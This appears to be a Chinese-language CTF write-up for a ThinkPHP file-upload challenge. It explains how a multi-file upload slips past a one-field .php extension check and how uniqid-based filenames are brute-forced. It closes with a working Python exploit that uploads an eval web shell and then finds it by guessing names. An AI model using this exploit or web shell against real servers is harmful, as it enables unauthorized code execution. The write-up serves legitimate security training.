



# 知识点:

# 1.thinkphp 文件上传路径

# 2. thinkphp upload函数多文件上传

# 3. uniqid 生成随机数爆破


# 1.进入之后直接给出源码：

```javascript
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }

        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
            $this->error($upload->getError());
            return;
        }else{// 上传成功 获取上传文件信息
            $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
            echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```


# 2.根据源码发现时thinkphp框架，且存在文件上传

thinkphp文件上传默认路径：

/index.php/home/index/upload


# 3. thinkphp的upload函数有一个问题，当参数为空时，整个$_FILES数组的文件都会上传保存




源码地址：

https://github.com/top-think/thinkphp/blob/master/ThinkPHP/Library/Think/Upload.class.php

但是该处代码只对同时上传的文件中的一个进行检查


```javascript
$uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }

```

当上传多个文件时，后面的文件就会绕过后缀名为php的检测


而且上传文件的文件名是uniqid函数生成，该函数生成的随机数







该函数生成的文件名，是按照当前时间的微秒生成的所以存在爆破的可能性


# 4. 此时的思路：

## 4.1 上传两个文件，第一个为正常的 文件绕过后缀名检测

## 4.2 第二个文件为shell php文件，获取权限

## 4.3 上传第一个文件的同时获取第一个文件的文件名，根据第一个文件的文件名来爆破上传的php文件的文件名


exp:

```javascript
import requests

url = "http://3e428ede-7a4d-49ec-91f6-bc628710114a.node3.buuoj.cn/"

path = url + "/index.php/home/index/upload"
files = {"file":("a.txt",'a'), "file1":("a.php", '<?php eval($_GET["a"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print t1
t1 = int(t1, 16)
print t1

j = t1
while True:
    # 此处的时间需要更换为自己当天的
    path = url + "/Public/Uploads/2020-02-26/%s.php" % hex(j)[2:-1]
    try:
        r = requests.get(path, timeout=1)
    except:
        continue
    if r.status_code != 404:
        print path
        print r.text
        break
    print j, hex(j)[2:-1], r.status_code
    j -= 1
```

当上传成功php文件之后文件内容会被自动替换成flag。也许是为了防止其他师傅获得权限，校时(*^_^*)。直接运行该脚本即可得到flag